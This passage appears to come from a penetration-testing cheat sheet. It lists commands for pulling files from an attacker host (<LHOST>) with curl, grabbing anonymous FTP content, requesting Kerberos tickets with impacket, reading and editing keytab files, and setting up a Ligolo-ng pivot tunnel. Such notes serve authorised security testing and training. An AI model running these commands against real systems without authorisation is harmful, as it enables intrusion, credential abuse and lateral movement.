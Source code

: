 ```c
__curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

#### FTP

```c
ftp <RHOST>
wget -r ftp://anonymous:anonymous@<RHOST>
```

#### Kerberos

```c
sudo apt-get install krb5-kdc
```

```c
impacket-getTGT <DOMAIN>/<USERNAME>:'<PASSWORD>'
export KRB5CCNAME=<FILE>.ccache
export KRB5CCNAME='realpath <FILE>.ccache'
```

```c
/etc/krb5.conf                   // kerberos configuration file location
kinit <USERNAME>                 // creating ticket request
klist                            // show available kerberos tickets
kdestroy                         // delete cached kerberos tickets
.k5login                         // resides kerberos principals for login (place in home directory)
krb5.keytab                      // "key table" file for one or more principals
kadmin                           // kerberos administration console
add_principal <EMAIL>            // add a new user to a keytab file
ksu                              // executes a command with kerberos authentication
klist -k /etc/krb5.keytab        // lists keytab file
kadmin -p kadmin/<EMAIL> -k -t /etc/krb5.keytab    // enables editing of the keytab file
```

#### Ligolo-ng

> https://github.com/nicocha30/ligolo-ng

##### Download Proxy and Agent

```c
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

##### Prepare Tunnel Interface

```c
sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
sudo ip link set ligolo up
```
